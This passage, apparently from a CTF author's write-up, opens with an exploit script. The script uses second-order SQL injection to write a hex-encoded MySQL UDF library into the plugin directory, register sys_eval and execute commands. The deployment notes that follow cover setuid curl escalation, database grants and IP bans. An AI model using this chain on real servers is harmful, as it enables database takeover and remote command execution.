83F80089C77C61754FBF1E000000E803FEFFFF488D70FF4531C94531C031FFB921000000BA07000000488D042E48F7D64821C6E8AEFEFFFF4883F8FF4889C37427498B4424104889EA4889DF488B30E852FEFFFFFFD3EB0CBA0100000031F6E802FEFFFF31C0EB05B8010000005A595B5D415CC34157BF00040000415641554531ED415455534889F34883EC1848894C24104C89442408E85AFDFFFFBF010000004989C6E84DFDFFFFC600004889C5488B4310488D356A030000488B38E814FEFFFF4989C7EB374C89F731C04883C9FFF2AE4889EF48F7D1488D59FF4D8D641D004C89E6E8DDFDFFFF4A8D3C284889DA4C89F64D89E54889C5E8A8FDFFFF4C89FABE080000004C89F7E818FDFFFF4885C075B44C89FFE82BFDFFFF807D0000750A488B442408C60001EB1F42C6442DFF0031C04883C9FF4889EFF2AE488B44241048F7D148FFC94889084883C4184889E85B5D415C415D415E415FC34883EC08833E014889D7750B488B460831D2833800740E488D353A020000E817FDFFFFB20188D05EC34883EC08833E014889D7750B488B460831D2833800740E488D3511020000E8EEFCFFFFB20188D05FC3554889FD534889D34883EC08833E027409488D3519020000EB3F488B46088338007409488D3526020000EB2DC7400400000000488B4618488B384883C70248037808E801FCFFFF31D24885C0488945107511488D351F0200004889DFE887FCFFFFB20141585B88D05DC34883EC08833E014889F94889D77510488B46088338007507C6010131C0EB0E488D3576010000E853FCFFFFB0014159C34154488D35EF0100004989CC4889D7534889D34883EC08E832FCFFFF49C704241E0000004889D8415A5B415CC34883EC0831C0833E004889D7740E488D35D5010000E807FCFFFFB001415BC34883EC08488B4610488B38E862FBFFFF5A4898C34883EC28488B46184C8B4F104989F2488B08488B46104C89CF488B004D8D4409014889C6F3A44C89C7498B4218488B0041C6040100498B4210498B5218488B4008488B4A08BA010000004889C6F3A44C89C64C89CF498B4218488B400841C6040000E867FBFFFF4883C4284898C3488B7F104885FF7405E912FBFFFFC3554889CD534C89C34883EC08488B4610488B38E849FBFFFF4885C04889C27505C60301EB1531C04883C9FF4889D7F2AE48F7D148FFC948894D00595B4889D05DC39090909090909090554889E5534883EC08488B05C80320004883F8FF7419488D1DBB0320000F1F004883EB08FFD0488B034883F8FF75F14883C4085BC9C390904883EC08E86FFBFFFF4883C408C345787065637465642065786163746C79206F6E6520737472696E67207479706520706172616D657465720045787065637465642065786163746C792074776F20617267756D656E747300457870656374656420737472696E67207479706520666F72206E616D6520706172616D6574657200436F756C64206E6F7420616C6C6F63617465206D656D6F7279006C69625F6D7973716C7564665F7379732076657273696F6E20302E302E34004E6F20617267756D656E747320616C6C6F77656420287564663A206C69625F6D7973716C7564665F7379735F696E666F290000011B033B980000001200000040FBFFFFB400000041FBFFFFCC00000042FBFFFFE400000043FBFFFFFC00000044FBFFFF1401000047FBFFFF2C01000048FBFFFF44010000E2FBFFFF6C010000CAFCFFFFA4010000F3FCFFFFBC0100001CFDFFFFD401000086FDFFFFF4010000B6FDFFFF0C020000E3FDFFFF2C02000002FEFFFF4402000016FEFFFF5C02000084FEFFFF7402000093FEFFFF8C0200001400000000000000017A5200017810011B0C070890010000140000001C00000084FAFFFF01000000000000000000000014000000340000006DFAFFFF010000000000000000000000140000004C00000056FAFFFF01000000000000000000000014000000640000003FFAFFFF010000000000000000000000140000007C00000028FAFFFF030000000000000000000000140000009400000013FAFFFF01000000000000000000000024000000AC000000FCF9FFFF9A00000000420E108C02480E18410E20440E3083048603000000000034000000D40000006EFAFFFFE800000000420E10470E18420E208D048E038F02450E28410E30410E38830786068C05470E50000000000000140000000C0100001EFBFFFF2900000000440E100000000014000000240100002FFBFFFF2900000000440E10000000001C0000003C01000040FBFFFF6A00000000410E108602440E188303470E200000140000005C0100008AFBFFFF3000000000440E10000000001C00000074010000A2FBFFFF2D00000000420E108C024E0E188303470E2000001400000094010000AFFBFFFF1F00000000440E100000000014000000AC010000B6FBFFFF1400000000440E100000000014000000C4010000B2FBFFFF6E00000000440E300000000014000000DC01000008FCFFFF0F00000000000000000000001C000000F4010000FFFBFFFF4100000000410E108602440E188303470E2000000000000000000000FFFFFFFFFFFFFFFF0000000000000000FFFFFFFFFFFFFFFF000000000000000000000000000000000100000000000000B2010000000000000C00000000000000A00B0000000000000D00000000000000781100000000000004000000000000005801000000000000F5FEFF6F00000000A00200000000000005000000000000006807000000000000060000000000000060030000000000000A00000000000000E0010000000000000B0000000000000018000000000000000300000000000000E81620000000000002000000000000008001000000000000140000000000000007000000000000001700000000000000200A0000000000000700000000000000C0090000000000000800000000000000600000000000000009000000000000001800000000000000FEFFFF6F00000000A009000000000000FFFFFF6F000000000100000000000000F0FFFF6F000000004809000000000000F9FFFF6F0000000001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000401520000000000000000000000000000000000000000000CE0B000000000000DE0B000000000000EE0B000000000000FE0B0000000000000E0C0000000000001E0C0000000000002E0C0000000000003E0C0000000000004E0C0000000000005E0C0000000000006E0C0000000000007E0C0000000000008E0C0000000000009E0C000000000000AE0C000000000000BE0C0000000000008017200000000000004743433A202844656269616E20342E332E322D312E312920342E332E3200004743433A202844656269616E20342E332E322D312E312920342E332E3200004743433A202844656269616E20342E332E322D312E312920342E332E3200004743433A202844656269616E20342E332E322D312E312920342E332E3200004743433A202844656269616E20342E332E322D312E312920342E332E3200002E7368737472746162002E676E752E68617368002E64796E73796D002E64796E737472002E676E752E76657273696F6E002E676E752E76657273696F6E5F72002E72656C612E64796E002E72656C612E706C74002E696E6974002E74657874002E66696E69002E726F64617461002E65685F6672616D655F686472002E65685F6672616D65002E63746F7273002E64746F7273002E6A6372002E64796E616D6963002E676F74002E676F742E706C74002E64617461002E627373002E636F6D6D656E7400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000F0000000500000002000000000000005801000000000000580100000000000048010000000000000300000000000000080000000000000004000000000000000B000000F6FFFF6F0200000000000000A002000000000000A002000000000000C000000000000000030000000000000008000000000000000000000000000000150000000B00000002000000000000006003000000000000600300000000000008040000000000000400000002000000080000000000000018000000000000001D00000003000000020000000000000068070000000000006807000000000000E00100000000000000000000000000000100000000000000000000000000000025000000FFFFFF6F020000000000000048090000000000004809000000000000560000000000000003000000000000000200000000000000020000000000000032000000FEFFFF6F0200000000000000A009000000000000A009000000000000200000000000000004000000010000000800000000000000000000000000000041000000040000000200000000000000C009000000000000C00900000000000060000000000000000300000000000000080000000000000018000000000000004B000000040000000200000000000000200A000000000000200A0000000000008001000000000000030000000A0000000800000000000000180000000000000055000000010000000600000000000000A00B000000000000A00B000000000000180000000000000000000000000000000400000000000000000000000000000050000000010000000600000000000000B80B000000000000B80B00000000000010010000000000000000000000000000040000000000000010000000000000005B000000010000000600000000000000D00C000000000000D00C000000000000A80400000000000000000000000000001000000000000000000000000000000061000000010000000600000000000000781100000000000078110000000000000E000000000000000000000000000000040000000000000000000000000000006700000001000000320000000000000086110000000000008611000000000000DD000000000000000000000000000000010000000000000001000000000000006F000000010000000200000000000000641200000000000064120000000000009C000000000000000000000000000000040000000000000000000000000000007D000000010000000200000000000000001300000000000000130000000000001402000000000000000000000000000008000000000000000000000000000000870000000100000003000000000000001815200000000000181500000000000010000000000000000000000000000000080000000000000000000000000000008E000000010000000300000000000000281520000000000028150000000000001000000000000000000000000000000008000000000000000000000000000000950000000100000003000000000000003815200000000000381500000000000008000000000000000000000000000000080000000000000000000000000000009A000000060000000300000000000000401520000000000040150000000000009001000000000000040000000000000008000000000000001000000000000000A3000000010000000300000000000000D016200000000000D0160000000000001800000000000000000000000000000008000000000000000800000000000000A8000000010000000300000000000000E816200000000000E8160000000000009800000000000000000000000000000008000000000000000800000000000000B1000000010000000300000000000000801720000000000080170000000000000800000000000000000000000000000008000000000000000000000000000000B7000000080000000300000000000000881720000000000088170000000000001000000000000000000000000000000008000000000000000000000000000000BC000000010000000000000000000000000000000000000088170000000000009B000000000000000000000000000000010000000000000000000000000000000100000003000000000000000000000000000000000000002318000000000000C500000000000000000000000000000001000000000000000000000000000000 into dumpfile '/usr/lib64/mysql/plugin/exp.so';\x23",
        f"{getRadmonStr()}';CREATE FUNCTION sys_eval RETURNS STRING SONAME 'exp.so';\x23",
        f"{getRadmonStr()}';select sys_eval(\"{CMD}\");\x23"
    ]
    pocStudentId = []
    for i in poc:
        pocStudentId.append(reg(i))
    print("[*]Ready to get admin")
    login(poc[0], pocStudentId[0])
    postAns()
    print(f"[*][?]set admin passwd: {passwd}")

    logout()
    loginRes = login("admin", passwd)
    if "something err0r" not in loginRes and "错误" not in loginRes:
        print("[+]login as admin success!")
    else:
        exit("[-]login as admin fail!")

    print("[*]write out file")
    posScore(pocStudentId[1])

    print("[*]create function")
    posScore(pocStudentId[2])

    print(f"[*]exec cmd: {CMD}")
    posScore(pocStudentId[3])

```


## Q&A

### 中文乱码

这个是典中典的问题了，首先数据库设置编码

```sql
SET NAMES utf8mb4;
```

其次表设置编码

```sql
ENGINE=InnoDB DEFAULT CHARSET=utf8
```

发现还是有乱码，是php和mysql连接时候的问题，要在每个`$mysqli`前先设置字符集：`set names utf8`

```PHP
$mysqli = new mysqli(MYSQL_HOST, MYSQL_USER, MYSQL_PASSWORD, MYSQL_DATABASE);
// 每个$mysqli连接执行语句前都要先执行
mysqli_query($mysqli,"set names utf8");
```

这样就解决了中文乱码的问题

### ===与==的问题

在`register.php`中原先有判断`$_POST['username']=='admin'`，因为是弱等于，导致可以重新注册一个admin账号，复现如下



注册了账号，然后拿`admin`登录，非`admin%a0`



登录成功。原先以为是环境的问题，后来发现是数据库交互的问题

在注册的时候有这样一句话

`$username = $mysqli->escape_string($_POST['username']);`

$mysqli->escape_string出来的username没有被正确存进去，而是数据库直接存了一个新的admin账号



我们把语句拿出来试一下



可以看到php传递sql语句的时候带了%a0（这里明显看到`admin `后面是有一个空位的），但是sql处理的时候没有认，如果设置了urlencode就能看到了



这里的问题可能将来也会是一个考点，一个小trick

既然是数据库的问题，那么就得更改数据的存储方式了，最后调试好想添加urlencode还是有点问题？

不管怎样首先把`register.php`判断改为强比较了

`if ($_POST['username']==='admin')`

### admin登录上车的问题

因为二次注入可以修改admin密码，因为俺们是compose起的环境，平台不支持做动态靶机，比如说前一位选手改了admin密码为123，后一位随便一试结果进了......就很尴尬了。因为session是不清的，所以只要登录了admin就算通过，靶机重置也不会影响已经登录admin的选手。因此在login处添加了这一段

```php
if ($row['username']=="admin"){
  $random = md5(time());
  $mysqli->query("update users set studentid='$random' where username='admin'");
}
```

不知道有没有选手爆破呢，概率很低当然也不是不可能，靶机重置同时也会重置admin密码，而靶机重置的密码规则是这样的

```sql
TRUNCATE TABLE score.users;INSERT INTO score.users VALUES (1, 'admin', '`head /dev/urandom | cksum | md5sum | cut -c 1-32`');
```

选手并不知道，所以概率低，当然php中登录就修改admin密码只是加了一层复杂性，而且爆破会被ban的辣

### 题目权限配给

首先由于要写udf，而且是站库分离的结构，所以给予mysql的服务器插件目录写和执行权限

```sh
chmod 777 /usr/lib64/mysql/plugin/
```

最后一步要用s位的curl提权，收回用户和组的权限，给curl添加s位

```sh
chmod 700 /flag && chmod +s /bin/curl
```

#### 数据库的权限与被搅shi后的修改

mysql新建了一个用户ctf，分别用到以下表

|      表名      |         作用         |
| :------------: | :------------------: |
| challengesAll  |      所有的题目      |
| randChallenges | 用户抽取到的题目编号 |
|     score      |     用户做题得分     |
|   userAnswer   |    用户提交的答案    |
|     users      |      用户注册表      |
|      ctf       |        提示表        |

看语句

```sql
CREATE USER 'ctf' IDENTIFIED BY '123456';
GRANT select ON score.challengesAll TO 'ctf'@'%';
GRANT select,insert ON score.randChallenges TO 'ctf'@'%';
GRANT select,insert ON score.score TO 'ctf'@'%';
GRANT select,insert ON score.userAnswer TO 'ctf'@'%';
GRANT select,insert,update ON score.users TO 'ctf'@'%';
GRANT select,insert,update ON score.ctf TO 'ctf'@'%';

GRANT file,insert ON *.* TO 'ctf'@'%';
```

后面会讲为何这样给予，最小权限原则

##### challengesAll

`challengesAll`是所有的题目，我只需要提取题目信息，在题目上线时已经确定，所以只需给予`select`权限即可

##### randChallenges

`randChallenges`是用户抽取到的题目，前面流程分析说过，用户在注册的时候会抽取题目插入到此表，因此需要`insert`权限，同时在主页用户需要做题，因此还需要`select`权限

##### score

`score`是用户的分数表，用户做完题后会插入一条记录记用户的分数，因此需要`select,insert`权限

##### userAnswer

`userAnswer`存储用户提交的答案，原因同上，也是需要`select,insert`权限

##### users

`users`是用户表，包括用户的增改查，是正常的注册系统的表权限，也就是这里可以出现修改admin密码的操作

##### ctf

`ctf`就是个提示表，没有交互，随意权限

##### 其他

因为要写udf，要给予`file,insert`权限来创建和落地


#### 比赛中出现搅💩的状况

某一天晚上，突然发现题目全部被人修改了，原因就是权限给多了

```sql
GRANT select,insert,update ON score.* TO 'ctf'@'%';
```

图省事之前是这样给的权限，不符合最小权限原则，这次之后也是狠狠学习了一下

##### 临时措施

当时出现了这样的情况，所以第一时间首先复原了题目，并且在群里通知选手不要修改了，因为这里对解题没有帮助，在此处也不存在非预期可以帮助解题，为了防止同学走歪路就通知了一下，但是没用，复原了还是被打了。

所以使用锁机制先限制一下，mysql有三种级别的锁定机制：表级锁定，行级锁定和页级锁定，首先锁定表，防止被进一步破坏

```sql
LOCK TABLES challengesAll;
```

然后开始检索权限，按照最小权限原则从新分配权限，最后下线题目，重新部署

### 题目被爆破

当时在解决搅shi的问题，然后发现多次警告后仍然有同学在爆破用户名和密码，直接手动封禁

从docker内部的话需要高级权限`--privileged`，但是这样会有安全性问题（著名的docker宿主机提权），于是直接在部署服务器上封禁，原先的命令是这样的

```sh
iptables -I INPUT -s [ip] -j DROP -dport [port]
```

但是发现好像没生效，尝试了一下，需要配给docker用户，于是直接封禁

```sh
iptables -I DOCKER -s [ip] -j DROP
```

直接封了

### 题目重置

环境需要重置，一是更新admin密码，二是清空用户数据和udf，比赛时间较长，要是一直不清会有大量数据


未完待续...